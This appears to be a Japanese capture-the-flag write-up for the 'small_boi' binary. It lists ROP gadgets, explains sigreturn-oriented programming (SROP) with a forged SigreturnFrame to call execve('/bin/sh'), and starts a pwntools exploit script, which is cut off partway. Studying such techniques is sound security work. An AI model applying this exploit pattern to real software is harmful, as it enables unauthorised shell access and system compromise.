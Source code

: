 ```
0x0000000000400187 : nop ; pop rbp ; ret
0x000000000040018a : pop rax ; ret
0x0000000000400188 : pop rbp ; ret
0x000000000040016c : push -0x4f ; xchg eax, edi ; shr byte ptr [rdx + rcx*2 + 0x68], 0x96 ; ret 0x5462
0x000000000040017c : push rbp ; mov rbp, rsp ; mov eax, 0xf ; syscall
0x0000000000400189 : ret
0x000000000040019f : ret 0x200
0x0000000000400174 : ret 0x5462
0x000000000040016f : shr byte ptr [rdx + rcx*2 + 0x68], 0x96 ; ret 0x5462
0x0000000000400185 : syscall
0x000000000040016e : xchg eax, edi ; shr byte ptr [rdx + rcx*2 + 0x68], 0x96 ; ret 0x5462
0x0000000000400173 : xchg eax, esi ; ret 0x5462
0x00000000004001bc : xor eax, edi ; mov rax, 0x3c ; syscall
0x000000000040019b : xor edi, edi ; mov rdx, 0x200 ; syscall

Unique gadgets found: 37
```

(`rpg`は`ROPgadget.py --binary`のエイリアス)

但し`pop rax; ret`と`syscall`があるので引数を設定しないのならシステムコールは呼べそうである。そこでsigreturnシステムコールを呼ぶ

## SROP

sigreturnシステムコールというものがある。x64なら15番のシステムコールで発動する。詳しい説明は参考文献に投げるが、カーネル空間からユーザ空間に戻る際に、退避しておいたユーザ空間のレジスタの値を復元するために各レジスタに対して値をpopする処理が行われる。これは"全てのレジスタ"に対してpopが行われるためスタックを次のようにしておけば任意のシステムコールが呼べそうである。

```
(saved_rbp, any)
&(pop rax; ret)
0xf  // rt_sigretunのシステムコール番号
&syscall
values
...
```

popする順番も決まっているので上手くスタックを構成すれば任意システムコーツが呼べる。どの順番でpopされるかは長くなるので参考文献に投げるが今回はpwntoolsにある`SigreturnFrame`を利用した。これをデフォルトの値は0(cs/gs/fsだけ確か何らかの値が入っている)で他のレジスタの値を辞書かドット記法で指定出来る(詳しくはコードを見たほうが早い)。
というわけで次のようにレジスタの値を設定すればこのシステムコールが呼ばれた後に`execve("/bin/sh", null, null)`を呼ぶことが出来そうである

```
rdi: &("/bin/sh")
rsi: 0
rdx: 0
rax: 59  // execveのシステムコール番号
rip: &syscall
```

なお、今回は`mov eax, 0xf; syacall`のガジェットがあったのでraxに値をpopせずにこれをそのまま使った

## Code

```python
from pwn import p64, u64, ELF, process, remote, SigreturnFrame, context, constants


if __name__ == "__main__":
    elf = ELF("./small_boi")
    context.binary = elf

    binsh = next(elf.search(b"/bin/sh\x00"))
    gadgets = {
        "syscall": 0x400185,
        "pop_rax": 0x40018a,
        "sigreturn": 0x400180
```